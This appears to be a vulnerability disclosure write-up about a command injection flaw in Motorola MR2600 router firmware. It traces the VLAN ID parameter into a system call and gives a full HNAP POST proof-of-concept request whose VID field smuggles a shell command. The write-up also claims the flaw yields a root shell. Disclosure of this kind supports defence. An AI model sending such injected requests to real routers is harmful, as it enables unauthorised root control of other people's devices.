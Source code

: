 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522105704463](img/image-20220522105704463.png)

By/SaveVLANParams/VLANIDInfoLists/VLANID: 0 / VID to v18 parameters of access to content

![image-20220522105721895](img/image-20220522105721895.png)

Format v18 into v54 with the snprintf function, setting v54 to the value of WAN_WAN0_IFNAME

![image-20220522105841959](img/image-20220522105841959.png)

The rc program transmits the obtained content to V11 through nvram_safe_get, formats V11 into V43 through snprintf, and finally executes the content in V43 through Twsysytem. Command injection vulnerability exists

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SaveVLANParams xmlns="http://purenetworks.com/HNAP1/">
	<VLANIDInfoLists>
		<VLANID:0>
			<VID> && ls > /tmp/456 && echo 1</VID>
		</VLANID:0>
	</VLANIDInfoLists>
</SaveVLANParams>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](../../../d-link/dir-816/2/img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)